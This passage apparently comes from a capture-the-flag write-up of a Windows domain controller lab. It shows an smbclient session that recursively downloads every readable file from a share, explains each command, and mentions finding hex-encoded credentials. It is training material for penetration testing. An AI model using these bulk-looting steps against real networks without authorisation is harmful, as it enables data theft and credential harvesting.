 ````powershell
SMB         10.10.10.182    445    CASC-DC1         print$          READ            Printer Drivers
SMB         10.10.10.182    445    CASC-DC1         SYSVOL          READ            Logon server share 
````

We logged in with smbclient, and now that we are inside, let me give you a pro tip for enumerating everything at once, without having to go through each folder manually, as it can be very tedious:

````powershell
❯ smbclient //10.10.10.182/Data -U r.thompson

Password for [WORKGROUP\r.thompson]:
Try "help" to get a list of possible commands.
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (16.2 KiloBytes/sec) (average 16.2 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (8.0 KiloBytes/sec) (average 12.0 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (38.3 KiloBytes/sec) (average 20.7 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (16.8 KiloBytes/sec) (average 19.7 KiloBytes/sec)
````

**Explanation:**

- `mask ""`: This command removes any filters that might limit the file enumeration, ensuring that we see all files.
- `recurse ON`: This enables recursive searching, meaning it will search through all subdirectories of the current folder.
- `prompt OFF`: This disables the prompt asking for confirmation before downloading each file, making the process automatic.
- `mget *`: This command downloads all files from the shared folder to the local machine.

By using these commands together, we can quickly enumerate and download all files from the shared folder without having to navigate manually through each subfolder. This approach speeds up the process significantly.

Upon reviewing the downloaded files, we found an email containing valuable information that we will likely use later, as well as a file containing credentials that appear to be in hexadecimal format
